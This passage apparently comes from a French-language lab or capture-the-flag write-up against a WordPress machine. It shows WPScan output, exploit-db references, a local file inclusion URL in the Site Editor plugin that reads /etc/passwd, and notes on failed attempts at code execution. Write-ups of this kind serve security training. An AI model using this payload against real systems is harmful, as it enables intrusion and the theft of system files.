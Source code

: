 ```bash
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <===================================================================================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <=========================================================================================================================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Nov 17 19:26:46 2022
[+] Requests Done: 126335
[+] Cached Requests: 24
[+] Data Sent: 33.678 MB
[+] Data Received: 34.107 MB
[+] Memory used: 512.668 MB
[+] Elapsed time: 00:03:46
```

Deux des plugins trouvent leur correspondance sur exploit-db :

* [WordPress Plugin Elementor 3.6.2 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50882)

* [WordPress Plugin Site Editor 1.1.1 - Local File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/44340)

Vu que l'on ne dispose pas d'identifiants pour le Wordpress, la seconde vulnérabilité est celle à tester. Il s'agit vraiment d'une faille d'inclusion toute bête.

J'arrive à dumper `/etc/passwd` avec l'URL suivante :

`http://192.168.56.61:8080/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

On retrouve les deux même utilisateurs quand dans l'épisode précédent :

```
shenron:x:1000:1000:shenron,,,:/home/shenron:/bin/bash
jenny:x:1001:1001::/home/jenny:/bin/bash
```

J'aimerais bien transformer cette LFI en RCE mais toutes les tentatives ont échouée :

* message d'erreur étrange quand on tente d'utiliser les filtres PHP : `didn't load shortcodes pattern file`

* inclusions distantes qui n'aboutissent pas (tentative de bruteforcer les ports egress pour les protos http et ftp sans succès)

